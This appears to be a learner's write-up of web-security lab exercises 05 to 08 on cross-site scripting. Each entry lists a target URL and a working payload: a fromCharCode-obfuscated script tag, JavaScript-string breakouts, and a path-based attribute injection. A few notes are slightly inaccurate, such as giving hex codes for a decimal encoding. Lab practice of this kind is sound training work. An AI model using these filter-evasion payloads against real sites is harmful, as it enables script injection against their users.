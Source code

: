 ### 05
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-74cd7cbe-a8c94d9f.libcurl.st/index.php?name=hacker

exploit: (payload)
`name=<script>eval(String.fromCharCode(97,108,101,114,116,40,39,101,54,99,98,49,49,97,53,45,56,100,55,55,45,52,49,50,98,45,57,99,102,99,45,100,57,57,102,99,54,98,98,101,53,48,57,39,41))</script>`

notes:
- `alert(1)` in charcode is `61,6c,65,72,74,28,31,29`

### 06
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-072a48ff-aaf764ed.libcurl.st/index.php?name=hacker

exploit:
- `http://ptl-072a48ff-aaf764ed.libcurl.st/index.php?name=h";alert(1);//`
- `http://ptl-072a48ff-aaf764ed.libcurl.st/index.php?name=h";alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509');//`

notes:
- by looking into the html src, it is injecting the HTTP GET value into Js code

### 07
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-b1e74ea5-e6bf6711.libcurl.st/index.php?name=hacker

exploit:
- `http://ptl-b1e74ea5-e6bf6711.libcurl.st/index.php?name=a';alert(e6cb11a5-8d77-412b-9cfc-d99fc6bbe509);//`

notes:
- humm, esto es una estafa :/

### 08
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-e0483a56-a3e030f9.libcurl.st/index.php

exploit:
- `http://ptl-e0483a56-a3e030f9.libcurl.st/index.php/a"><script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script><!--`

notes:
